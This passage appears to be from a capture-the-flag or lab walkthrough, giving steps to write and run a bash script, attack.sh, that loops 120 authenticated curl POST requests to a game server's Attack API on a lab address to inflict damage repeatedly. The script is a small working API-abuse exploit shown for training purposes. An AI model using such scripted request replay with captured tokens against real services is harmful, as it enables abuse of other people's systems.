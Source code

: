 ![c14-q27](img/c14-q27.png)

22. Let's trying creating a script to automate this process. Copy the text into a file and name it attack.sh. Save the file to the Desktop.

```bash
for i in {1..120}; do
   curl -X 'POST'   'http://10.7.7.200/api/game/Attack?user_id=acb1cd16-6252-4651-a262-4a099f898d55&enemy_id=141a152a-45e0-49aa-9413-7143ac6e9cdb&damage_amt=100' -H 'accept: */*' -H 'UserAuthToken: a386a3dc3313479d8ca5d020374107f129f09d22cac542eda3c8d7e4b793c42d' -d ''
done
```

23. Make the script executable by running the following command:

```bash
chmod +x attack.sh
```

![c14-q28](img/c14-q28.png)

24. Execute the script with the following command:

```bash
./attack.sh
```
